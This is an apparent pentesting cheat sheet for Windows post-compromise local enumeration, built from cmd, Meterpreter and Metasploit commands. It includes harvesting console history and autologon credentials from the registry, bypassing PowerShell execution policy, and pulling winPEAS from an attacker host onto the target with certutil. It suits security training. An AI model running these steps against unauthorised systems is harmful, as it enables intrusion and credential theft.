 # Windows - Local Enumeration

### Manual Windows Local enumeration

### System Information

```bash
# Shell
hostname
systeminfo
wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic product get name,version,vendor # all software with version in the machine

# Meterpreter
getuid
sysinfo
cd C:\Windows\System32\ && cat eula.txt # The file may not be exist
```

### Users & Groups

{% code title="Cmd" %}
```bash
whoami
whoami /all
whoami /priv
query user
net users
net user SYS_USER # (ex Administrator, guest, antonio)
net localgroup
net localgroup GROUP_NAME # view users in the group
net localgroup administrators # view user in administrators's group
```
{% endcode %}

{% code title="Meterpreter" %}
```bash
getuid
getprivs
```
{% endcode %}

{% code title="msfconsole" %}
```bash
use post/windows/gather/enum_logged_on_users
set sessions N
run
```
{% endcode %}

### Network information

{% code title="Cmd" %}
```bash
ipconfig
ipconfig /all
route print
arp -a
netstat -ano

netsh firewall show state
netsh advfirewall firewall help
netsh advfirewall show allprofiles
```
{% endcode %}

### Processes & Services

{% code title="Meterpreter session" %}
```bash

ps
pgrep SERVICE_NAME # pgrep explorer.exe
migrate PID

# Services
net start
wmic service list brief
tasklist /SVC
schtasks /query /fo LIST /v
```
{% endcode %}

### Console History

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```



### Auto Logon credentials

{% code title="Cmd" %}
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```
{% endcode %}



### Juicy Directory

```bash
cd C:\ # look for some custom directory
cd C:\Users\*\Documents
cd C:\Users\*\Desktop
cd C:\Users\*\Download
```



### Windows Permission

To check the permission for file/directory follow this commands:

```powershell
# see permission
icacls DIRECTORY/FILE

# change the permission
icacls "path" /grant UserOrGroup:PERMS
```



<details>

<summary>Windows Permission Legenda</summary>



| Permission Name          | Applies To       | icacls Code | Description                                                           |
| ------------------------ | ---------------- | ----------- | --------------------------------------------------------------------- |
| **Full Control**         | File / Directory | **F**       | Grants all permissions including changing ownership and permissions.  |
| **Modify**               | File / Directory | **M**       | Read, write, execute, delete. Cannot change permissions or ownership. |
| **Read & Execute**       | File / Directory | **RX**      | View and execute files; traverse folders.                             |
| **List Folder Contents** | Directory        | **(RX)**    | Same as Read & Execute, shown as RX in parentheses for folders.       |
| **Read**                 | File / Directory | **R**       | View data and attributes.                                             |
| **Write**                | File / Directory | **W**       | Write data, create files/folders.                                     |





| `(OI)` | Object Inherit — applies to files                  |
| ------ | -------------------------------------------------- |
| `(CI)` | Container Inherit — applies to folders             |
| `(IO)` | Inherit Only — permission applies to children only |
| `(N)`  | No Propagate Inherit                               |
| `(I)`  | Inherited permission                               |

</details>



## Automating Windows Local Enumeration

### JAWS

{% embed url="https://github.com/411Hall/JAWS" %}

1. Copy .ps1 script on attcker machine
2. upload on meterpreter session (in C:\Temp)
3. run this command on windows shell

```bash
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt
```

```bash
# download file on attack machine
download JAWS-Enum.txt
```

### winPEAS

Download the last version on attacker machine

{% embed url="https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS" %}

{% code overflow="wrap" %}
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250113-4426d62e/winPEASx64.exe
```
{% endcode %}

Transfer file to target machine

```bash
# attacker machine 
python3 -m http.server 80

# target machine
certutil -urlcache -f http://IP:80/winPEASx64.exe winPEASx64.exe
```

Execute WinPEAS on target machine

```powershell
.\winPEASx64.exe > peas.txt
```





***

### Metasploit

<pre class="language-bash"><code class="lang-bash"><strong># Metasploit
</strong>service postgresql start &#x26;&#x26; msfconsole

## Modules
use post/windows/gather/win_privs
use post/windows/gather/enum_logged_on_users
use post/windows/gather/checkvm
use post/windows/gather/enum_applications
use post/windows/gather/enum_computers
use post/windows/gather/enum_patches
use post/windows/gather/enum_shares

set session N
run
</code></pre>
